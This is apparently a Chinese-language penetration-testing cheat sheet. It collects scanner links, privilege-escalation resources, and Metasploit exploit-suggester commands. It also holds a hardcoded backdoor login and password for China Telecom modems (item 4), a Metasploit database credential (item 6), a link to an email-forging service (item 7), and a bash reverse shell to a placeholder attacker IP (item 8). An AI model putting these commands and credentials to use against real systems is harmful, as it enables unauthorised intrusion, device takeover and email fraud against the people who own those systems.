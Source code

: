 1.没用过的在线扫描器:
    https://jawfish.io/
	https://www.punkspider.org

    三个安全相关搜索引擎
    https://www.shodan.io/
    https://www.zoomeye.org/
    https://fofa.so/

2.使用python开启一个简单的http服务:
    python -m SimpleHTTPServer 80

3.serve U运行cmd:
    quote site exec "..."

4.账号telecomadmin密码nE7jA%5m电信猫后门

5.linux local_root提权  
    http://exploit.linuxnote.org/
    https://itunsecurity.wordpress.com/2015/08/16/vulnhub-com-writeup-darknet/(LinEnum.sh,
    linuxprivchecker.py,unix-privesc-check)
    https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
 windows local privileges:
    http://www.52wa.net/post-198.html
    https://github.com/GDSSecurity/Windows-Exploit-Suggester
    http://le4f.net/post/post/windows-x64-local-privilege-escalation
    https://forum.90sec.org/forum.php?mod=viewthread&tid=9067#lastpost
    https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
    http://www.freebuf.com/articles/web/76892.html
    https://github.com/foxglovesec/Potato
    in meterpreter:
    meterpreter>background
    msf>use post/multi/recon/local_exploit_suggester 
    msf>show options
    msf>exploit
    or  
    meterpreter>run post/multi/recon/local_exploit_suggester

6.metasploit与postgresql数据库连接:
    msf > db_connect msf3: AtZDNVQF3NJEyNqU9u1ciHcqTsbcZzKR@127.0.0.1: 5432 / msf3

7.http: // tool.chacuo.net / mailanonymous   伪造邮件发送,一小时邮箱

8.bash反弹:
    /bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1

9.sed -i '/Love/d' 1.txt   删除包含Love的行
  sed -i 's/pattern1/string' file    正则查找替换
  sed -ri 's/pattern1/string' file
      标准正则查找替换,上面没有r选项的正则中()或{}要加\,也即\(或\{,此处r要在i前面
      否则用sed -ir无效
  如果要替换成的字符串中有\n,且用的是python调试os.system执行sed,则要将\n变成\\n,eg:
  sed -i "s/<?php/<?php\necho 666;/g" test.php
  在python中要这样写:
  os.system('''sed -i "s/<?php/<?php\\necho 666;/g" test.php''')

